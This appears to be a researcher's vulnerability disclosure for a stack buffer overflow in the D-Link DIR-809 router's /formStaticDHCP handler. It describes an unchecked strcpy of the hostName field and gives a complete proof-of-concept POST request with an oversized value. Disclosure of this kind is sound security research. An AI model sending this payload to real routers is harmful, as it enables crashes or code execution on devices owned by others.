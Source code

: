 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formStaticDHCP` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_80034d60` ( page `/formStaticDHCP` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"hostName_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar1` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `acStack386`. 

![2021-05-10_09h14_38](README/2021-05-10_09h14_38.png)



## PoC

``` 
POST /formStaticDHCP.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 1718
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Network.asp?t=1620545775523
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=v2F31BZVGw
Connection: close

settingsChanged=0&hostName_0=12312312312312312313*0x200&host_ip_0=192.168.0.101&mac_0=3c22fb4473b4&computer_list_ipaddr_select_0=-1&hostName_1=&host_ip_1=&mac_1=&computer_list_ipaddr_select_1=-1&hostName_2=&host_ip_2=&mac_2=&computer_list_ipaddr_select_2=-1&hostName_3=&host_ip_3=&mac_3=&computer_list_ipaddr_select_3=-1&hostName_4=&host_ip_4=&mac_4=&computer_list_ipaddr_select_4=-1&hostName_5=&host_ip_5=&mac_5=&computer_list_ipaddr_select_5=-1&hostName_6=&host_ip_6=&mac_6=&computer_list_ipaddr_select_6=-1&hostName_7=&host_ip_7=&mac_7=&computer_list_ipaddr_select_7=-1&hostName_8=&host_ip_8=&mac_8=&computer_list_ipaddr_select_8=-1&hostName_9=&host_ip_9=&mac_9=&computer_list_ipaddr_select_9=-1&hostName_10=&host_ip_10=&mac_10=&computer_list_ipaddr_select_10=-1&hostName_11=&host_ip_11=&mac_11=&computer_list_ipaddr_select_11=-1&hostName_12=&host_ip_12=&mac_12=&computer_list_ipaddr_select_12=-1&hostName_13=&host_ip_13=&mac_13=&computer_list_ipaddr_select_13=-1&hostName_14=&host_ip_14=&mac_14=&computer_list_ipaddr_select_14=-1&hostName_15=&host_ip_15=&mac_15=&computer_list_ipaddr_select_15=-1&hostName_16=&host_ip_16=&mac_16=&computer_list_ipaddr_select_16=-1&hostName_17=&host_ip_17=&mac_17=&computer_list_ipaddr_select_17=-1&hostName_18=&host_ip_18=&mac_18=&computer_list_ipaddr_select_18=-1&hostName_19=&host_ip_19=&mac_19=&computer_list_ipaddr_select_19=-1&hostName_20=&host_ip_20=&mac_20=&computer_list_ipaddr_select_20=-1&hostName_21=&host_ip_21=&mac_21=&computer_list_ipaddr_select_21=-1&hostName_22=&host_ip_22=&mac_22=&computer_list_ipaddr_select_22=-1&hostName_23=&host_ip_23=&mac_23=&computer_list_ipaddr_select_23=-1&HNAP_AUTH=9ABC7566FEC3D4A69F750618F1E5EA86 1620545783&submit-url=%2FBasic%2FNetwork.asp
```





## Acknowledgment

Credit to  [@Yu3H0](https://github.com/Yu3H0/), [@peanuts62](https://github.com/peanuts62), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

